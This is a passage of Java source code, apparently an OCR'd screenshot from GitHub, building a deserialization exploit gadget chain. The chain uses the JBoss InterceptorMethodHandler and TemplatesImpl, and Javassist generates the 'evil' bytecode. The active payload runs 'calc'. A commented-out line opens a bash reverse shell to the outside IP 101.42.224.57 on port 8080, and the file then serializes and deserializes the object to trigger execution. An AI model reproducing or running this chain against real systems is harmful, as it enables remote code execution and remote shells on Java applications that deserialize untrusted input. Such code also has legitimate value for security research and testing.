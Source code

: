 ```java
        InterceptorMethodHandler exp = new InterceptorMethodHandler(map, metadata, model, interceptorInstantiator, factory);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(baos);
        out.writeObject(exp);
        out.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();



//        org.jboss.interceptor.proxy.InterceptorMethodHandler
//        TemplatesImpl templates=(TemplatesImpl) getTemplatesImpl();
//        templates.newTransformer();




    }
    public static Object getTemplatesImpl() throws IOException, NoSuchFieldException, IllegalAccessException, NotFoundException, CannotCompileException {
        TemplatesImpl templates=new TemplatesImpl();
        byte[] evilBytes=getEvilBytes();
        setFieldValue(templates,"_name","JYcxk");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        setFieldValue(templates,"_bytecodes",new byte[][]{evilBytes});
        return templates;

    }
    public static void setFieldValue(Object object,String field_name,Object filed_value) throws NoSuchFieldException, IllegalAccessException {
        Class clazz=object.getClass();
        Field declaredField=clazz.getDeclaredField(field_name);
        declaredField.setAccessible(true);
        declaredField.set(object,filed_value);
    }
    public static byte[] getEvilBytes() throws NotFoundException, CannotCompileException, IOException, NotFoundException, CannotCompileException, NotFoundException, CannotCompileException {
        ClassPool classPool = new ClassPool(true);
        CtClass hello = classPool.makeClass("Hello");
        CtClass ctClass = classPool.getCtClass("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        hello.setSuperclass(ctClass);
        CtConstructor ctConstructor=new CtConstructor(new CtClass[]{},hello);
        //ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/bash\",\"-c\",\"bash -i >& /dev/tcp/101.42.224.57/8080 0>&1\"});");
        ctConstructor.setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        hello.addConstructor(ctConstructor);
        byte[] bytes=hello.toBytecode();
        hello.detach();
        return bytes;
    }
    public static void serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        string = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
    public static void unserialize() throws Exception {
```